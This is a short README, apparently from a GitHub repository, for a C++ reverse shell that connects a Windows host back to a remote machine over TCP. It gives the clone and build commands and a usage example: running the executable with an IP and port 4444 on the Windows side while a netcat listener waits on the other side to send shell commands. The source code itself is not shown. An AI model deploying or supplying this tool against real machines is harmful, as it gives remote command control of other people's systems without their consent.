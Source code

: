 # C ++ Reverse Shell

Connect Windows host to a remote machine and run Windows shell commands remotely over TCP.

## Building

Prerequisite: MinGW or MSYS2 compiler toolchain.

```
git clone https://github.com/dev-frog/C-Reverse-Shell.git
cd C-Reverse-Shell
mkdir build
cd build
cmake ..
make
```  

## Testing

On the Windows machine:

```
./c-reverse-shell.exe 192.168.1.3 4444
```

On the remote machine:

```
netcat -lvnp 4444
```

Start typing commands on the remote machine, right after receiving "Connection from..." message.

